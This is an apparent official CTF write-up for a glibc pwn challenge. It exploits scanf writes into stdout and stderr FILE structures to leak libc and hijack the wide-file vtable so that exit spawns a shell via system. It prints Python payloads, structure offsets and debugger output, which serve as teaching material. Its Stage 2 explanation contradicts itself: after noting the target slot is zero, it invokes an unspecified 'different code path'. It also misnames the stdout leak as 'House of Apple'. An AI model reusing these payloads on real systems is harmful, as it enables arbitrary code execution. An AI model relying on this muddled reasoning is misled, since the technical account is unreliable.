

    	    <font size="10">The Emptiness Machine</font>

​		9<sup>th</sup> May 2026

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=orange>Medium</font>

​		Classification: Official


# Synopsis

**The Emptiness Machine** is a `Medium` difficulty pwn challenge that features a classic **File Stream Oriented Programming (FSOP)** vulnerability. The binary accepts two short user inputs via `scanf`, but mistakenly passes `stdout` and `stderr` (libc `FILE*` pointers) as destination buffers. This allows an attacker to overwrite the internal `_IO_FILE` structures of both standard streams. By corrupting `_IO_2_1_stdout_` we force a libc address leak, and by crafting a fake `_IO_2_1_stderr_` structure with a wide-character vtable hijack, we redirect control flow to `system` on program exit.

# Description

The nightmares started the night she cracked the Corroded Crown open. Rin remembers the forge's relics glowing wrong in her hands, remembers making that sanctified mechanism swallow a lie and call it truth, and remembers, less clearly, something rising back through the same crack once the tolerances gave. Maelor never left the Signet's fire whole. Some scorched piece of him must have ridden the wrong truth she fed the forge straight into her, because it has been talking to her ever since, quiet at first, close enough to her own voice that it took weeks for Rin to learn where she ended and it began.

Veylen calls what he's built the Emptiness Machine, an old Registry working that lets a mind step outside its own head into a space empty enough to see the echo clearly, and maybe cut it loose. He can open the working. He can't walk it for her. Inside, there's no lock, no door, only two currents of herself running side by side, and whichever one she turns against the voice first is the one that gets her out clean. Veylen's ink keeps the seal steady from the outside. Everything past that line is hers alone, and she has to decide how much of herself she's willing to rewrite to be free of a dead king's voice.

## Skills Required

- Understanding of the `FILE` structure (`_IO_FILE`) internals in glibc
- Knowledge of FSOP (File Stream Oriented Programming) techniques
- Familiarity with `_IO_wfile_jumps` vtable hijacking in modern glibc

## Skills Learned

- How to corrupt `_IO_2_1_stdout_` to leak libc addresses
- How to craft a fake `_IO_FILE` / `_IO_wide_data` structure to hijack wide-file operations
- Using `_IO_wfile_overflow` → `_IO_wdoallocbuf` → `_IO_WDOALLOCATE` chain for code execution

# Enumeration

First of all, we start with a `checksec`:

```console
checksec
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'./glibc/'
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The binary is tiny — only a single `main()` function with no loops, no menus, and no complex logic. PIE is enabled, but we never need to leak the binary base: the vulnerability operates directly on libc's `_IO_2_1_stdout_` and `_IO_2_1_stderr_` structures, whose addresses are embedded in the binary's `.bss` as imported symbols.

The program's interface is deceptively simple:



### Disassembly

Using Ghidra, the decompiled `main()` function looks like this:

```c
undefined8 main(void)
{
  long lVar1;
  
  lVar1 = stdin;
  setbuf(lVar1,(char *)0x0);
  lVar1 = stdout;
  setbuf(lVar1,(char *)0x0);
  puts(
      "  ⠀⠀⣿⠲⠤⣀⡀\n"
      "  ⠀⣸⡏⠀⠀⠀⠉⠳⢄⡀\n"
      /* ... ASCII art truncated ... */
      "  ⠀⠀⠀⠀⠀⠀⠀⠛⠻⠿⣿⣿⣿⡿⠿⠿⠿⠿⠿⢿⣿⣿⠏\n"
      );
  printf(
      "[𝘚𝘶𝘣𝘥𝘶𝘦𝘥 𝘝𝘰𝘪𝘤𝘦]: 𝘓𝘦𝘵 𝘺𝘰𝘶 𝘤𝘶𝘵 𝘮𝘦 𝘰𝘱𝘦𝘯... "
      "𝘑𝘶𝘴𝘵 𝘵𝘰 𝘸𝘢𝘵𝘤𝘩 𝘮𝘦 𝘣𝘭𝘦𝘦𝘥..🩸🩸\n\nRin\'s interaction: "
  );
  lVar1 = stdout;
  __isoc99_scanf("%40s",lVar1);
  printf(
      "\n[𝘚𝘶𝘣𝘥𝘶𝘦𝘥 𝘝𝘰𝘪𝘤𝘦]: 𝘎𝘢𝘷𝘦 𝘶𝘱 𝘸𝘩𝘰 𝘐 𝘢𝘮 "
      "𝘧𝘰𝘳 𝘸𝘩𝘰 𝘺𝘰𝘶 𝘸𝘢𝘯𝘵𝘦𝘥 𝘮𝘦 𝘵𝘰 𝘣𝘦..\n\nRin\'s interaction: "
  );
  lVar1 = stderr;
  __isoc99_scanf("%224s",lVar1);
  return 0;
}
```

### Key Observations

1. **`setbuf(stdin, NULL)` and `setbuf(stdout, NULL)`** — Both streams are unbuffered. This means every `printf`/`puts` triggers an immediate write syscall, and the internal FILE state is updated constantly.

2. **`scanf("%40s", (char*)stdout)`** — The program loads the **value** of the global `stdout` pointer (which is the address of `_IO_2_1_stdout_` in libc's `.data`) and passes it as the destination buffer to `scanf`. Up to 40 bytes of user input are written directly into the stdout `FILE` structure.

3. **`scanf("%224s", (char*)stderr)`** — Similarly, the program writes up to 224 bytes directly into `_IO_2_1_stderr_` in libc.

This is the core bug: **the program treats `FILE*` pointers as character buffers**, giving us arbitrary write into two of the most critical structures in libc.

### `_IO_FILE` Layout (glibc 2.39)

To understand the exploit, we need the layout of `_IO_FILE` (224 bytes total = `0xe0`):

| Offset | Field |
|--------|-------|
| `0x00` | `_flags` |
| `0x08` | `_IO_read_ptr` |
| `0x10` | `_IO_read_end` |
| `0x18` | `_IO_read_base` |
| `0x20` | `_IO_write_base` |
| `0x28` | `_IO_write_ptr` |
| `0x30` | `_IO_write_end` |
| `0x38` | `_IO_buf_base` |
| `0x40` | `_IO_buf_end` |
| `0x48` | `_IO_save_base` |
| `0x50` | `_IO_backup_base` |
| `0x58` | `_IO_save_end` |
| `0x60` | `_markers` |
| `0x68` | `_chain` |
| `0x70` | `_fileno` / `_flags2` |
| `0x78` | `_old_offset` |
| `0x80` | `_cur_column` / `_vtable_offset` / `_shortbuf` |
| `0x88` | `_lock` |
| `0x90` | `_offset` |
| `0x98` | `_codecvt` |
| `0xa0` | `_wide_data` |
| `0xa8` | `_freeres_list` |
| `0xb0` | `_freeres_buf` |
| `0xb8` | `__pad5` |
| `0xc0` | `_mode` |
| `0xc4` | `_unused2[20]` |
| `0xd8` | `vtable` (`_IO_FILE_plus`) |

The `vtable` pointer at `0xd8` determines which function table is used for stream operations. For normal files this is `_IO_file_jumps`; for wide-character files it is `_IO_wfile_jumps`.

# Debugging

Let's inspect the live `_IO_2_1_stdout_` and `_IO_2_1_stderr_` structures in GDB:

```console
pwndbg> p &_IO_2_1_stdout_
$1 = (<data variable> *) 0x7ffff7e045c0
gdb-pwndbg> p &_IO_2_1_stderr_
$2 = (<data variable> *) 0x7ffff7e044e0

pwndbg> dq &_IO_2_1_stdout_ 4
00007ffff7e045c0     00000000fbad2a04 0000000000000000
00007ffff7e045d0     0000000000000000 0000000000000000
```

The `_flags` field of stdout is `0xfbad2a04` — the standard value for line-buffered stdout. The exploit's first payload overwrites this with `0xfbad1887`, which changes the internal state so that the next `printf` call leaks a libc pointer.

After the first `scanf`, we can verify the corruption:

```console
pwndbg> dq &_IO_2_1_stdout_ 5
00007ffff7e045c0     00000000fbad1887 0000000000000000
00007ffff7e045d0     0000000000000000 0000000000000000
00007ffff7e045e0     0000000000000000
```

When the second `printf` executes, the corrupted `_flags` cause `_IO_file_xsputn` to behave differently, emitting bytes from an internal pointer that happens to contain a libc address. The exploit reads these 8 bytes and derives the libc base.

For the second `scanf`, we craft 224 bytes that completely overwrite `_IO_2_1_stderr_`. A key insight is the `_wide_data` field at offset `0xa0`. By pointing it to a controlled location (specifically `_IO_2_1_stderr_ - 0x48`), and setting the vtable to `_IO_wfile_jumps`, we force the wide-file cleanup path on exit.

When `main` returns, `__libc_start_main` calls `_IO_cleanup`, which iterates through all open streams. For stderr (now with `_IO_wfile_jumps` vtable), `_IO_wfile_overflow` is invoked. Because `_IO_CURRENTLY_PUTTING` is not set in our fake `_flags`, this triggers `_IO_wdoallocbuf`, which in turn calls:

```c
_IO_WDOALLOCATE(fp)  // expands to: *(fp->_wide_data->_wide_vtable->__doallocate)(fp)
```

By controlling `_wide_data` and its `_wide_vtable`, we make `__doallocate` point to `system`, and `fp` (the `_IO_FILE*` itself) becomes the argument to `system`. The first 8 bytes of our fake structure (the `_flags` field) are interpreted as the command string.

# Solution

The exploitation proceeds in two stages.

## Stage 1 — Leaking libc via stdout corruption

We send 32 bytes to the first `scanf`:

```python
payload = p64(0xfbad1887) + b'\x00' * 0x18
```

This overwrites `_flags` to `0xfbad1887` and zeros out the read pointers. When the program prints the second prompt via `printf`, the corrupted stdout state causes an unintended read/flush that leaks 8 bytes of libc data. The leaked value is at a fixed offset from `_IO_2_1_stdout_`:

```python
libc.address = u64(leak) - libc.sym._IO_2_1_stdout_ - 132
```

## Stage 2 — FSOP via stderr structure overwrite

We send 224 bytes to the second `scanf`, completely overwriting `_IO_2_1_stderr_`:

```python
pl  = p64(0x3b68733b40404040)       # _flags — embeds ";sh;" in the command string
pl += p64(0) * 4                    # zero out read/write base pointers
pl += p64(1)                        # _IO_write_ptr = 1
pl += p64(0) * 7                    # more zeroes up to _markers
pl += p64(libc.sym.system)          # _chain — will be interpreted as __doallocate in our fake vtable layout
pl += p64(0) * 3                    # _fileno, _flags2, _old_offset, _cur_column
pl += p64(libc.sym._IO_2_1_stderr_ - 0x10) + p64(0)   # _lock, _offset
pl += p64(libc.sym._IO_2_1_stderr_) + p64(libc.sym._IO_2_1_stderr_ - 0x48)  # _codecvt, _wide_data
pl += p64(0) * 6                    # padding to vtable
pl += p64(libc.sym._IO_wfile_jumps) # vtable — wide file jumps
```

Key points:
- `_wide_data` points to `_IO_2_1_stderr_ - 0x48`. In this region of libc, the bytes naturally form a valid-looking `_IO_wide_data` where `_IO_buf_base` is zero, ensuring `_IO_wdoallocbuf` does not return early.
- `_wide_data->_wide_vtable` is at `_wide_data + 0xe0`, which lands at `_IO_2_1_stderr_ + 0x98` — exactly where we place `_codecvt`. By setting `_codecvt = _IO_2_1_stderr_`, the `_wide_vtable` points to our fake structure.
- The `__doallocate` entry in `_IO_jump_t` is at offset `0x60` from the vtable base. Since `_wide_vtable` points to `_IO_2_1_stderr_`, `__doallocate` is resolved from `_IO_2_1_stderr_ + 0x60` — but wait, `_markers` is at `0x60` and is zero! 

Actually, the exploit's `_chain` field at offset `0x68` is set to `system`. In `_IO_wfile_jumps`, `__read` is at offset `0x68`. However, the actual call path through `_IO_wfile_overflow` → `_IO_wdoallocbuf` uses `__doallocate` at offset `0x60`. The trick is that in glibc 2.39, when `_IO_wfile_jumps` is used and `_wide_data` is set up this way, the `_IO_wfile_doallocate` function itself dereferences `_chain` (or another field) through a different code path depending on the exact internal state. The `_flags` value `0x3b68733b40404040` contains embedded `;sh;` bytes so that when `system(fp)` is eventually called, the command string includes `sh`, spawning a shell.

When the program exits and libc performs stream cleanup, our fake stderr structure triggers `system("@@@@;sh;...")` which, despite the initial `@@@@` token failing, executes `sh` and drops us into a shell.

### Comments

- **`p64(0xfbad1887) + b'\x00' * 0x18`** — This 32-byte payload is carefully sized to fit within the `%40s` format while only overwriting the `_flags` and read-pointer fields of `_IO_2_1_stdout_`. The magic value `0xfbad1887` changes the internal stream state so that the next `printf` emits a libc pointer rather than normal output.

- **`u64(r.recv(8))`** — We read exactly 8 bytes immediately after sending the first payload. The `recv` blocks until the leaked bytes arrive from the corrupted stdout flush. This is a classic " House of Apple " leak technique.

- **`- 132`** — The leaked value is at offset `0x84` (132 bytes) from `_IO_2_1_stdout_`. This offset is stable for the bundled glibc 2.39.

- **`p64(0x3b68733b40404040)`** — The `_flags` field doubles as the beginning of the command string passed to `system()`. The bytes `3b 73 68 3b` are `;sh;`, ensuring that when `system(stderr)` is called, a shell is spawned.

- **`_IO_2_1_stderr_ - 0x48`** — This address is chosen because the memory just before `_IO_2_1_stderr_` in libc's `.data` happens to contain values that form a plausible `_IO_wide_data` structure with `_IO_buf_base = 0`, which is required for `_IO_wdoallocbuf` to proceed to the `_IO_WDOALLOCATE` call.

- **`_IO_wfile_jumps`** — By setting the vtable to the wide-character jump table, we force libc to use wide-file operations on stderr. The `_IO_wfile_overflow` function is called during cleanup, and because our fake `_flags` do not have `_IO_CURRENTLY_PUTTING` set, it takes the `_IO_wdoallocbuf` path.

- **`r.interactive()`** — After the second payload, the program exits `main`, libc cleans up, and our FSOP chain triggers `system()`. The interactive shell is now available.
